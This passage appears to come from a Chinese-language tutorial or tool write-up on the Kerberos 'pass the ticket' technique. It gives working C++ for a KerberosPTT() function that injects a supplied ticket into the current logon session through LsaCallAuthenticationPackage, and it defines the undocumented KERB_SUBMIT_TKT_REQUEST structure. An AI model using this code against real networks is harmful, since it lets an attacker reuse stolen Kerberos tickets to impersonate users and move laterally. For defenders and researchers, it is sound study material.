 ## Pass The Ticket

票据传递的主要功能函数是 `KerberosPTT()`，该函数定义如下。

```c++
BOOL KerberosPTT(PVOID encodedTicket, ULONG encodedTicketSize)
{
	BOOL status = FALSE;
	NTSTATUS packageStatus;
	PKERB_SUBMIT_TKT_REQUEST pKerbSumbitRequest;
	PVOID pKerbSumbitResponse;
	ULONG submitBufferLength, returnBufferLength;

	submitBufferLength = sizeof(KERB_SUBMIT_TKT_REQUEST) + encodedTicketSize;
	pKerbSumbitRequest = (PKERB_SUBMIT_TKT_REQUEST)LocalAlloc(LPTR, submitBufferLength);

	pKerbSumbitRequest->MessageType = KerbSubmitTicketMessage;
	pKerbSumbitRequest->KerbCredSize = encodedTicketSize;
	pKerbSumbitRequest->KerbCredOffset = sizeof(KERB_SUBMIT_TKT_REQUEST);
	RtlCopyMemory((PBYTE)pKerbSumbitRequest + pKerbSumbitRequest->KerbCredOffset, encodedTicket, encodedTicketSize);

	status = NT_SUCCESS(LsaCallAuthenticationPackage(hLSA, AuthenticationPackage, pKerbSumbitRequest, submitBufferLength, &pKerbSumbitResponse, &returnBufferLength, &packageStatus));
	if (!status || !NT_SUCCESS(packageStatus))
	{
		wprintf(L"[-] LsaCallAuthenticationPackage Error [%u].\n", GetLastError());
		return status;
	}
	
	wprintf(L"   * Submit ticket : OK.\n");
	LocalFree(pKerbSumbitRequest);
	return status;
}
```

这里还需要补充一点知识。

### KERB_SUBMIT_TKT_REQUEST

`KERB_SUBMIT_TKT_REQUEST` 结构用于向 Kerberos 颁发机构（KDC）提交票据请求。该结构体没有公开在微软文档中，其定义如下。

```c++
typedef struct _KERB_SUBMIT_TKT_REQUEST {
    KERB_PROTOCOL_MESSAGE_TYPE MessageType;
    LUID LogonId;
    ULONG Flags;
    KERB_CRYPTO_KEY32 Key; // key to decrypt KERB_CRED
    ULONG KerbCredSize;
    ULONG KerbCredOffset;
} KERB_SUBMIT_TKT_REQUEST, *PKERB_SUBMIT_TKT_REQUEST;  
```
